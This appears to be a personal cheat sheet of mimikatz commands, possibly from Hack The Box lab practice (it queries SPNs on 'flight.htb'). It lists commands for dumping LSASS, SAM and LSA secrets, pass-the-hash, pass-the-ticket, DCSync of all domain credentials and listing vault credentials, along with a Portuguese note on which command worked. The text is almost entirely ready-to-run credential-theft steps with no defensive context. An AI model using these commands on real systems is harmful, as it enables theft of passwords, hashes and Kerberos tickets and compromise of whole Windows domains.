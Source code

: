 mimikatz
========================

    setspn -T flight.htb -Q */*

## Dump LSASS:

    mimikatz privilege::debug
    mimikatz token::elevate
    mimikatz sekurlsa::logonpasswords

## (Over) Pass The Hash

    mimikatz privilege::debug
    mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

## List all available kerberos tickets in memory

    mimikatz sekurlsa::tickets

## Dump local Terminal Services credentials

    mimikatz sekurlsa::tspkg

## Dump and save LSASS in a file

    mimikatz sekurlsa::minidump c:\temp\lsass.dmp

## List cached MasterKeys

    mimikatz sekurlsa::dpapi

## List local Kerberos AES Keys

    mimikatz sekurlsa::ekeys

## Dump SAM Database

    mimikatz lsadump::sam

## Dump SECRETS Database

    mimikatz lsadump::secrets

## Inject and dump the Domain Controller’s Credentials

    mimikatz privilege::debug
    mimikatz token::elevate
    mimikatz lsadump::lsa /inject
    lsadump::lsa /patch # ==> Esse foi o que funcionou bem pra mim.

## Dump the Domain’s Credentials without touching DC’s LSASS and also remotely

    mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

## List and Dump local kerberos credentials

    mimikatz kerberos::list /dump

## Pass The Ticket

    mimikatz kerberos::ptt <PathToKirbiFile>

## List TS/RDP sessions

    mimikatz ts::sessions

## List Vault credentials

    mimikatz vault::list

## Remove tickets from memory

	mimikatz kerberos::purge

